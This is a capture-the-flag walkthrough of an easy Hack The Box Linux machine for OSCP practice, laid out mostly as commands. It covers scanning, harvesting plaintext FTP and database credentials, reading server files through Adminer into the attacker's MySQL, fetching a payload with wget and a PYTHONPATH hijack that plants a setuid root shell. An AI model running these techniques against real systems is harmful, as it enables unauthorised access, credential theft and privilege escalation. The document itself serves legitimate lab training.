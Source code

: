 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
**Tags:** `ftp`, `adminer`, `mysql`, `pythonpath`, `privesc`, `path hijack`

---

## 📡 Recon

### Full TCP Port Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.187
```

### Service and Script Scan

```bash
nmap -p 21,22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.187
```

---

## 🌐 Web Enum [HTTP](HTTP.md)

### robots.txt

```bash
curl http://10.10.10.187/robots.txt
```

- Found `/admin-dir` → 403 Forbidden
- Mention of username: **waldo**

### Gobuster on `/`

```bash
gobuster dir -u http://10.10.10.187 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 20 -o scans/gobuster-root-medium-php
```

### Gobuster on `/admin-dir`

```bash
gobuster dir -u http://10.10.10.187/admin-dir \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,zip,html -t 20 -o scans/gobuster-admindir
```

- Found: `contacts.txt`, `credentials.txt`

---

## 📁 Sensitive Files

### contacts.txt

```bash
curl http://10.10.10.187/admin-dir/contacts.txt
```

### credentials.txt

```bash
curl http://10.10.10.187/admin-dir/credentials.txt
```

- FTP creds: `ftpuser : %n?4Wz}R$tTF7`

---

## 📤 FTP Access

```bash
wget --user ftpuser --password '%n?4Wz}R$tTF7' -m ftp://10.10.10.187
```

- Files: `dump.sql`, `html.tar.gz`

### Extract and Analyze Code

```bash
tar -xzf html.tar.gz
```

Look for:
- `utility-scripts/`
- `w4ld0s_s3cr3t_d1r/`

#### Database Credentials Found

From `index.php` / `db_admin.php`:
```php
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A\"d6b";  # backup creds
$password = "&<h5b~yK3F#{PaPB&dA}{H>";  # live creds
```

---

## 💽 Adminer Exploit for File Read

Visit:
```text
http://10.10.10.187/utility-scripts/adminer.php
```

### Setup Local MySQL for Remote Read

```sql
GRANT ALL PRIVILEGES ON *.* TO root@'10.10.10.187' IDENTIFIED BY '0xdf' WITH GRANT OPTION;
```

```sql
CREATE DATABASE pwn;
USE pwn;
CREATE TABLE exfil (data VARCHAR(256));
```

### In Adminer

Connect to local MySQL using:
- Host: your IP
- User: `root`
- Pass: `0xdf`
- DB: `pwn`

Then execute:
```sql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE exfil
FIELDS TERMINATED BY "\n";
```

View results:
```sql
SELECT * FROM exfil;
```

---

## 🔑 SSH as Waldo

```bash
sshpass -p '&<h5b~yK3F#{PaPB&dA}{H>' ssh waldo@10.10.10.187
```

✅ Grab `user.txt`

---

## 🧑‍🔧 Privilege Escalation: Python Path Hijack

### Check Sudo Rights

```bash
sudo -l
```

- Can run: `/opt/scripts/admin_tasks.sh` with `SETENV`
- Calls: `/opt/scripts/backup.py` → uses `shutil`

### Exploit Plan

1. Create malicious `shutil.py` in writable dir.
2. Set `PYTHONPATH` to load it.
3. Hijack `make_archive()` to run as root.

### Payload: `shutil.py`

```python
#!/usr/bin/python3
import os

def make_archive(a, b, c):
    os.system("cp /bin/bash /var/tmp/rootbash; chmod +s /var/tmp/rootbash")
```

### Upload & Trigger

```bash
cd /var/tmp
wget http://<your-ip>/shutil.py
sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh 6
```

### Spawn Root Shell

```bash
/var/tmp/rootbash -p
```

✅ Grab `root.txt`